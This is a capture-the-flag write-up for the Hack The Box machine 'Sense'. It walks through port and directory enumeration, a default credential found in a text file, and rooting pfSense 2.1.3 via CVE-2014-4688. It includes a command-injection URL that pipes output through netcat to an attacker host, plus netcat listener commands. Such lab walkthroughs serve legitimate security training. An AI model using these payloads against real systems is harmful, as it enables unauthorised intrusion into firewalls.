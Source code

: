 # Sense HTB, IP 10.10.10.60

# Initial Enumeration

**1.nmap -sC -sV 10.10.10.60**

![se1](https://user-images.githubusercontent.com/15195048/94268612-4ae0ab00-fef2-11ea-8bf0-ff8204ac3063.png)

**2. ./nmapAutomator.sh 10.10.10.60 All**

 cpe:/a:lighttpd:lighttpd:1.4.35: 

CVE-2018-19052  5.0     https://vulners.com/cve/CVE-2018-19052

CVE-2018-19052  5.0     https://vulners.com/cve/CVE-2018-19052

**3. Dirb/Gobuster Enumeration**

**dirb https://10.10.10.60 -X .php,.html**

---- Scanning URL: https://10.10.10.60/ ----
+ https://10.10.10.60/edit.php (CODE:200|SIZE:6689)                                                                                                                                                                                       
+ https://10.10.10.60/exec.php (CODE:200|SIZE:6689)                                                                                                                                                                                       
+ https://10.10.10.60/graph.php (CODE:200|SIZE:6690)                                                                                                                                                                                      
+ https://10.10.10.60/help.php (CODE:200|SIZE:6689)                                                                                                                                                                                       
+ https://10.10.10.60/index.php (CODE:200|SIZE:6690)                                                                                                                                                                                      
+ https://10.10.10.60/index.html (CODE:200|SIZE:329)                                                                                                                                                                                      
+ https://10.10.10.60/license.php (CODE:200|SIZE:6692)                                                                                                                                                                                    
+ https://10.10.10.60/pkg.php (CODE:200|SIZE:6688)                                                                                                                                                                                        
+ https://10.10.10.60/stats.php (CODE:200|SIZE:6690)                                                                                                                                                                                      
+ https://10.10.10.60/status.php (CODE:200|SIZE:6691)                                                                                                                                                                                     
+ https://10.10.10.60/system.php (CODE:200|SIZE:6691)                                                                                                                                                                                     
+ https://10.10.10.60/wizard.php (CODE:200|SIZE:6691)                                                                                                                                                                                     
+ https://10.10.10.60/xmlrpc.php (CODE:200|SIZE:384) 


![se2](https://user-images.githubusercontent.com/15195048/94268614-4b794180-fef2-11ea-8106-2deae3a9b260.png)

**gobuster dir -u http://"10.10.10.60" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x .txt -r -k**
 
![se3](https://user-images.githubusercontent.com/15195048/94268616-4c11d800-fef2-11ea-8268-4941b8e84663.png)

![se4](https://user-images.githubusercontent.com/15195048/94268619-4caa6e80-fef2-11ea-8d32-f1caa09c04d0.png)

**4. SEARCHPLOIT**

**searchploit lighttpd**

![se5](https://user-images.githubusercontent.com/15195048/94268621-4d430500-fef2-11ea-86e5-a99b379dd30d.png)


**searchploit pfsense**

![se6](https://user-images.githubusercontent.com/15195048/94268622-4d430500-fef2-11ea-8f14-9803af973efe.png)


------------------------------------------------------------------------------------------------------------------------------------
# Port Enumeration

## Enumerating port 80
Firewall pfsense blocks us from visiting the mentioned pages.
index.php

![se7](https://user-images.githubusercontent.com/15195048/94268625-4e743200-fef2-11ea-9679-8139a41fb032.png)


pfSense is an open source firewall/router computer software distribution based on FreeBSD.

index.html


![se8](https://user-images.githubusercontent.com/15195048/94268629-4f0cc880-fef2-11ea-9042-34872cf29431.png)

![se9](https://user-images.githubusercontent.com/15195048/94268632-4f0cc880-fef2-11ea-9bcc-bc1b5b170fc4.png)


**Interesting Files**

https://10.10.10.60/tree/

![se10](https://user-images.githubusercontent.com/15195048/94268633-4fa55f00-fef2-11ea-878c-593a0be9a053.png)

**SilverStripe v 0.1**

Searching for known vulnerabilities.

Nothing interesting

changelog.txt


![se11](https://user-images.githubusercontent.com/15195048/94268634-4fa55f00-fef2-11ea-95f1-d0b61de60361.png)

system-users.txt

![se12](https://user-images.githubusercontent.com/15195048/94268635-503df580-fef2-11ea-9776-a562703a4119.png)


According to the ticket, there is an account with username Rohit and default password.

**Credentials rohit:pfsense**

![se13](https://user-images.githubusercontent.com/15195048/94268637-503df580-fef2-11ea-857c-ecb001349ad8.png)


**Pfsense v2.1.3**

![se14](https://user-images.githubusercontent.com/15195048/94268639-50d68c00-fef2-11ea-911c-4785223aae8a.png)

Searching for vulnerability I found **CVE-2014-4688**.

![se15](https://user-images.githubusercontent.com/15195048/94268640-50d68c00-fef2-11ea-9a01-104f3842c192.png)

**Modifications:** lhost, lport, rhost, username, password and start a netcat listener

![se16](https://user-images.githubusercontent.com/15195048/94268643-516f2280-fef2-11ea-9859-9d63edd558b8.png)


**Attacker:**
nc -lvp 9999

![se17](https://user-images.githubusercontent.com/15195048/94268644-516f2280-fef2-11ea-9de1-85702c0b0a6c.png)

user.txt

# Privilege Escalation

## Command Injection Manually

Study the article https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection

**/status_rrd_graph_img.php?database=queues;echo Testing | nc 10.10.14.12 443**

**Attacker:**
nc -nlvp 443
 

We are local admin!
No privilege escalation needed!

![se18](https://user-images.githubusercontent.com/15195048/94268646-5207b900-fef2-11ea-9eb3-6bdb03fe59fe.png)

**Rooted**
root.txt

